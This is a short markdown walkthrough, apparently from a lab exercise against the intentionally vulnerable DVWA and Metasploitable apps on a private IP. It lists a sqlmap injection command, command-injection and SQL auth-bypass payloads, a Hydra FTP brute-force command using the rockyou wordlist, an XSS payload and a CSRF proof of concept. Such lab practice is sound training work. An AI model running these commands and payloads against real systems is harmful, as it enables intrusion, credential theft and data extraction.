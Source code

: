 # 💥 Attack Walkthrough

## 1. SQL Injection
- Tool: SQLmap
- URL: `/dvwa/vulnerabilities/sqli/`
- Command:
```bash
sqlmap -u "http://192.168.146.129/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=..." --batch --dbs
```
Result: Extracted database names and tables

## 2. Command Injection
Location: /dvwa/vulnerabilities/exec/

Payloads:
```bash
127.0.0.1; id
8.8.8.8 && uname -a
```
Result: Command output visible in response

## 3. Auth Bypass
Location: DVWA Login page

Payload:
```bash
Username: ' or 1=1 --
Password: anything
```
Result: Successful login

## 4. FTP Brute Force
Tool: Hydra

Command:
```bash
hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt ftp://192.168.146.129 -t 4
```

## 5. XSS (Reflected + Stored)
Location: /dvwa/vulnerabilities/xss_r/ and /xss_s/

Payload: <script>alert('xss')</script>

Result: Alert popups captured

## 6. CSRF (Medium Security)
Intercepted request showed no CSRF token

PoC created in csrf_attack.html using GET method

Password changed without server-side validation